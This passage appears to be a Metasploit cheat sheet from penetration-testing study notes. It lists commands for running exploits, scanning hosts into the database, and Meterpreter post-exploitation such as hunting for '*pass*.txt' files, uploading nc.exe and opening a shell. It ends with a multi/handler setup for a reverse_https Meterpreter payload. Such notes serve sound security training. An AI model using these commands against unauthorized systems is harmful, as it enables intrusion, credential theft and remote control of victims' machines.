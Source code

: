     -   Run the module  
        run

    -   Execute an Exploit  
        exploit

    -   Search for a module  
        search type:auxiliary login

-   Metasploit Database Access

    -   Show all hosts discovered in the MSF database  
        hosts

    -   Scan for hosts and store them in the MSF database  
        db\_nmap

    -   Search machines for specific ports in MSF database  
        services -p 443

    -   Leverage MSF database to scan SMB ports (auto-completed
        rhosts)  
        services -p 443 --rhosts

-   Staged and Non-staged

    -   Non-staged payload - is a payload that is sent in its entirety
        in one go

    -   Staged - sent in two parts  
        Not have enough buffer space  
        Or need to bypass antivirus

-   Experimenting with Meterpreter

    -   Get system information from Meterpreter Shell  
        sysinfo

    -   Get user id from Meterpreter Shell  
        getuid

    -   Search for a file  
        search -f \*pass\*.txt

    -   Upload a file  
        upload /usr/share/windows-binaries/nc.exe c:\\\\Users\\\\Offsec

    -   Download a file  
        download c:\\\\Windows\\\\system32\\\\calc.exe /tmp/calc.exe

    -   Invoke a command shell from Meterpreter Shell  
        shell

    -   Exit the meterpreter shell  
        exit

-   Metasploit Exploit Multi Handler

    -   multi/handler to accept an incoming reverse\_https\_meterpreter
        payload  
        use exploit/multi/handler  
        set PAYLOAD windows/meterpreter/reverse\_https  
        set LHOST $ip  
        set LPORT 443  
        exploit  
        \[\*\] Started HTTPS reverse handler on https://$ip:443/
